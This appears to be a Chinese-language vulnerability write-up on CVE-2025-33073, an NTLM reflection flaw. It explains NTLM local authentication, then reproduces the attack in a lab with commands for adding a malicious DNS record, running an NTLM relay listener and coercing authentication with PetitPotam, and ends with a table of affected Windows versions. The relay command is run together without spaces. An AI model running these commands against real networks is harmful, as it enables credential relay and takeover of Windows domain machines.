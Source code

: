 ### **本地 NTLM 身份验证**

NTLM 本地身份验证是 NTLM 身份验证的一种特殊情况正常 NTLM 认证是三个阶段

1. NEGOTIATE
2. CHALLENGE
3. AUTHENTICATE，

如果客户端和服务器被判定为“本地调用”，服务器在 CHALLENGE 阶段就指示客户端无需计算 NTLM 响应，而是直接将 当前令牌（如 SYSTEM）传给服务器使用。

> 关键标志位是：NTLMSSP_NEGOTIATE_LOCAL_CALL (0x4000)
>
> 被放在 NTLM_CHALLENGE 消息中，提示客户端走本地身份验证流程。

![图片](%E5%9F%9F%E5%A4%A7%E6%9D%80%E5%99%A8%20CVE-2025-33073%20NTLM%E5%8F%8D%E5%B0%84.assets/640.png)

当服务器判断“你连的是本地机器”时，它会启用一个特殊机制来省略加密计算，直接共享进程令牌，流程变为：

1. 客户端发送 NEGOTIATE

   ➜ 包含工作站名和域名，服务器一看：咦？你是我自己！

2. 服务器返回 CHALLENGE

   设置 `NTLMSSP_NEGOTIATE_LOCAL_CALL`

    附带一个“上下文 ID”，用来代表我在本机 lsass 进程中建了一个 context。

3. 客户端一看是本地调用

    它就不计算 NTLM 响应，而是：

   把自己当前的 Token（例如 SYSTEM）加入服务器那个上下文中

4. 客户端发回 AUTHENTICATE（几乎是空的！）

   ➜ 不包含加密回应，只带一个 ID，告诉服务器：我已经把 Token 放到你那儿了。

5. 服务器拿着 Token 开始模拟进行操作

### 漏洞复现

| IP                              | 系统    | 说明        |
| :------------------------------ | :------ | :---------- |
| 10.211.55.8                     | kali    | 攻击机      |
| 10.211.55.33（srv.redteam.com） | Win2016 | 目标机器    |
| 10.211.55.34 (dc.redteam.com)   | Win2016 | DNS、DC机器 |

添加恶意dns解析

```
python3 dnstool.py -u 'redteam\john' -p 'user@123' 10.211.55.33 -a add -r srv1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 10.211.55.8
```

![图片](%E5%9F%9F%E5%A4%A7%E6%9D%80%E5%99%A8%20CVE-2025-33073%20NTLM%E5%8F%8D%E5%B0%84.assets/640-1750127058101-1.png)

监听请求

```
impacket-ntlmrelayx-tsrv.redteam.com-smb2support

```

![图片](%E5%9F%9F%E5%A4%A7%E6%9D%80%E5%99%A8%20CVE-2025-33073%20NTLM%E5%8F%8D%E5%B0%84.assets/640-1750127058101-2.png)



触发强制连接

```
python3 PetitPotam.py -u john -p 'user@123' -d redteam.com srv1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA srv.redteam.com         
```

成功触发获取hash

![图片](%E5%9F%9F%E5%A4%A7%E6%9D%80%E5%99%A8%20CVE-2025-33073%20NTLM%E5%8F%8D%E5%B0%84.assets/640-1750127058101-3.png)



### 漏洞影响范围

| **操作系统/版本**                  | 是否受影响 | 说明                                                         |
| :--------------------------------- | :--------- | :----------------------------------------------------------- |
| **Windows 11（22H2、23H2、24H2）** | ❌ 没有     | 默认情况下得到缓解；MS-EFSRPC 得到强化并且 NTLM 的使用受到限制。 |
| **Windows Server 2025（预览版）**  | ❌ 没有     | 最新版本默认已阻止强制执行。                                 |
| **Windows Server 2022**            | ❌ 没有     | 发布前已修补；默认情况下缓解 MS-EFSRPC。                     |
| **Windows 服务器 2019**            | ✅ 是的     | 除非完全修补并配置 NTLM 限制，否则仍然有效。                 |
| **Windows 服务器 2016**            | ✅ 是的     | MS-EFSRPC 接口仍然可用；默认允许 NTLM。                      |
| **Windows Server 2012 R2**         | ✅ 是的     | 强制开箱即用；需要手动强化。                                 |
| **Windows Server 2008 R2**         | ✅ 是的     | 如果未修补则完全容易受到攻击；没有默认缓解措施。             |
| **Windows 10（最高至 21H2）**      | ✅ 是的     | 除非修补，否则容易受到攻击；如果启用了 NTLM，EFSRPC 强制就会起作用。 |

### 参考连接

https://www.synacktiv.com/publications/ntlm-reflection-is-dead-long-live-ntlm-reflection-an-in-depth-analysis-of-cve-2025

https://github.com/mverschu/CVE-2025-33073